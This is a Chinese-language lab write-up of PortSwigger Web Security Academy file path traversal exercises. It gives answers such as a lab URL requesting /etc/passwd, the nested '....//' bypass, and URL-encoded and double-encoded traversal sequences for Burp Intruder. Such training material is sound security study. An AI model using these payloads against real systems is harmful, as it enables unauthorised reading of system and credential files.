 ### 答案

```http
https://0aac008403198b5a80f0766f003b00a0.web-security-academy.net/image?filename=/etc/passwd
```

## Lab3

### 前置

嵌套遍历序列

如....// or ....\/ ，当内部序列被剥离时（只过滤一遍），它将恢复为简单的遍历序列

### 题目

实验3：文件路径遍历（非递归地剥离遍历序列）

```
Lab: File path traversal, traversal sequences stripped non-recursively
PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

### 答案

双写绕过

```
....//....//....//etc/passwd
```

## Lab4

### 前置

#### 编码绕过

1、除去遍历序列：在某些上下文中，如在URL路径或filename的参数multipart/form-data请求时，Web服务器可能会在将输入传递到应用程序之前去除任何目录遍历序列。

2、编码绕过：有时可以通过**URL编码**或甚至**双URL编码**来绕过这种清理，`../` 字符，一次编码 `%2e%2e%2f`、二次编码 `%252e%252e%252f` 。各种非标准编码，如 `..%c0%af` 或  `..%ef%bc%8f` ，也可能起到作用

3、工具：BP Intruder 提供了一个预定义的负载列表（将GitHub或自己收集的特殊编码导入，观察哪些可以使用），其中包含各种可供尝试的编码路径遍历序列。 

### 题目

```
Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

